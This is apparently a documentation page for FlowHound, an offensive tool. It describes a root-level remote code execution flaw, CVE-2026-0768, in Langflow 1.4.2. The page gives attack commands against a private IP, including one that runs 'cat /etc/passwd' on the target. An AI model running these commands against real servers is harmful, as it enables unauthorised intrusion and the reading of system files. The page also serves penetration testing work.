

repository: rmhowe425/FlowHound · page: cves/cve_2026_0768/index.html · generator: mkdocs

# CVE Description
**CVE Description:** Unauthenticated remote code execution vulnerability that allows remote attackers to execute arbitrary code under the context of root. The specific flaw exists within the handling of the code parameter provided to the validate endpoint. The issue results from the lack of proper validation of a user-supplied string before using it to execute Python code. An attacker can leverage this vulnerability to execute code in the context of root.

**Impacted Versions:** Langflow version 1.4.2


# Exploit Module

## Default Mode
```bash
flowhound attack --url http://192.168.1.30:7860 --username root --password root --cve CVE-2026-0768
```

![image](../images/cve/49542579-a39c-4589-bcb2-f153067e58ab.png)


## Execute Bash Command
```bash
flowhound attack --url http://192.168.1.30:7860 --username root --password root --cve CVE-2026-0768 --command "cat /etc/passwd"
```

![image](../images/cve/315fe8fd-422b-4b13-9f24-f7eedfdb84cc.png)
